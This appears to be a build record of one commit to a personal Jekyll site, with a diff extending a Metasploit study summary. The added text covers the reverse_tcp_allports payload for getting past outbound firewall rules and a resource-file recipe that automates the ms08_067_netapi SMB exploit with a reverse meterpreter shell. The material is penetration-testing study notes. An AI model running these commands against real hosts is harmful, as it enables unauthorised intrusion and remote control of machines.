

Before and after one commit to jsom1/jsom1.github.io, a Jekyll site: the page built from _summaries/metasploit.md, in a window 1280 px wide and 1400 px high, scrolled down 10771 px. Shown: the whole window at 94% size, without its empty margins (160-1109 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Update metasploit.md

```diff
--- a/_summaries/metasploit.md
+++ b/_summaries/metasploit.md
@@ -182,11 +182,38 @@
 - **Msf> set and unset**: some parameters shown by the previous command (*show options*) are required. We can use the command *set* to set an option, and *unset* to unset it.
 - **Msf> setg and unsetg**: these commands are used to set/unset a global parameter in msfconsole. It is useful for variables that don't often change, like our IP address for example (LHOST). After setting general options with *setg*, we can use the command **save** to save them for the next time we use msfconsole. This can be done anytime and anywhere in msfconsole (within or outside of a module), and the configuration is saved in *root/.msf3/config*.
 - **Msf> show payloads**: we saw that payloads are pieces of code sent to the target. As for *show options*, when we use this command within a module, it shows the available payloads for that module. For Microsoft Windows exploits, a payload can be as simple as a command prompt on the target, and as complex as a complete GUI on the target system. After selecting a payload (with *set*), we can use the command *show options* again to see the new parameters. In reverse payloads, the connection is done by the target machine to the attacker; we must specify our IP and a port to which it will connect. We can use this technique to bypass a NAT or a firewall.
-- **Msf> show targets**: modules often list potentially vulnerable targets, based on their version, language and security implementations. It is generally a good idea to identify the right exploit instead of using the option *Automatic targetting*. Therefore, it is important to identify the OS of the target.
+- **Msf> show targets**: modules often list potentially vulnerable targets, based on their version, language and security implementations. It is generally a good idea to identify the right exploit instead of using the option *Automatic targetting*. Therefore, it is important to identify the OS of the target; if the exploits uses an overflow against the wrong OS, it can do severe damage.
 - **Msf> info**: called from within a module, this command gives additional on this latter. We can also use this command outside of a module, followed by the name of a module.
 
 
+## Port bruteforcing
+{:style="color:DarkRed; font-size: 170%;"}
+
+Until now, we assumed that the reverse port was always opened. However, most companies block outgoing connections, except on a few specific ports. It can be hard to determine the ports that allow an outgoing connection.
+
+We can easily guess that port 443 (HTTPS) will not be inspected and allows an outgoing TCP connection. We can also suppose that ports 23 (Telnet), 21 (FTP), 22 (SSH) and 80 (HTTP) are authorized.
+
+However, Metasploit has a payload defined to look for open ports. This latter will try all the available ports until it finds an open process. It is the payload *windows/meterpreter/reverse_tcp_allports* (we can find it with the command *search ports*). We launch the exploit without specifying LPORT; it will automatically open a meterpreter session on an outgoing port.
+
+## Resource files
+{:style="color:DarkRed; font-size: 170%;"}
+
+Resource files are script files that allow to automate commands in msfconsole. They contain a list of commands that are executed sequentially by msfconsole.
+
+These files can be loaded into msfconsole with the command *resource*. For example, we can use a SMB exploit in a new resource file called *autoexploit.rc*: We define a payload, the attack and the target's IP in this file (so we don't have to do it manually when we try the exploit). We would:
+
+~~~~
+echo use exploit/windows/smb/ms08_067_netapi > autoexploit.rc
+echo set RHOST *target IP* >> autoexploit.rc
+echo set PAYLOAD windows/meterpreter/reverse_tcp >> autoexploit.rc
+echo set LHOST *my IP* >> autoexploit.rc
+echo exploit >> autoexploit.rc
+~~~~~
+
+We would then start Metasploit with *msfconsole* and launch the exploit with *resource autoexploit.rc*.
+
 # Meterpreter : presentation of the post exploitation swiss knife
+
 
 # Avoid detection : ideas behind AVs evasion
 
```
